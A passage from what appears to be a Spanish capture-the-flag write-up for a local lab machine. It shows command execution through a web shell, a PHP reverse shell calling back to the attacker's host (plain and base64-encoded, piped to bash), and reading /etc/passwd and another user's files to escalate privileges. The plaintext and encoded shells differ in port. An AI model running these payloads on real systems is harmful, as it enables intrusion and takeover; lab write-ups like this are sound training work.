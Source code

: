 Ahora ejecutaremos comandos:
```bash
http://172.17.0.2/pruebasUltraSecretas/cmd.php?cmd=whoami
curl -s -X GET "http://172.17.0.2/pruebasUltraSecretas/cmd.php?cmd=whoami"
```

De ambas maneras vemos el output de nuestro comando ejecutado:
```bash
www-data
```

Ahora para ganar accesso al sistema usaremos una **reverShell** de **php**
```bash
php -r '$sock=fsockopen("172.17.0.1",444);exec("/bin/bash -i <&2 >&3 2>&4");'
```

Antes de lanzar el ataque, la codificaremos en base64
```bash
cGhwIC1yICckc29jaz1mc29ja29wZW4oIjE3Mi4xNy4wLjEiLDQ0Myk7ZXhlYygic2ggPCYzID4mMyAyPiYzIik7Jw==
```

Ahora si podemos lanzar el ataque para ganar accesso:
Para que funcione tenemos que lanzarla con un **echo**
```bash
http://172.17.0.2/pruebasUltraSecretas/shell.php?cmd=echo%20%27cGhwIC1yICckc29jaz1mc29ja29wZW4oIjE3Mi4xNy4wLjEiLDQ0Myk7ZXhlYygic2ggPCYzID4mMyAyPiYzIik7Jw==%27%20|%20base64%20-d%20|%20bash
```

**Nota** Para que la **revershell** no se  corrompa, Primero exportamos la **bash** y  **xterm** para que cuando reseteemos quede bien,.

---

## Escalada de Privilegios]`
###### Usuario `[ www-data ]`:
Listando los directorios de **home** tenemos capacidad de atravesar el directorio del usuario: **maci** Pero lo que nos interesa es buscar archivos por usuarios del sistema:
Primero detectamos a los usuarios del sistema:
```bash
cat /etc/passwd | grep "sh"

root:x:0:0:root:/root:/bin/bash
maci:x:1000:1000::/home/maci:/bin/bash
darksblack:x:1001:1001:,,,:/home/darksblack:/bin/bash
pepe:x:1002:1002:,,,:/home/pepe:/bin/bash
```

Ahora listamos los archvios del siguiente usuario:
```bash
find / -type f -user darksblack 2>/dev/null
```

Obtenemos el siguiente archivo:
```bash
/var/backups/darksblack/.darksblack.txt
```
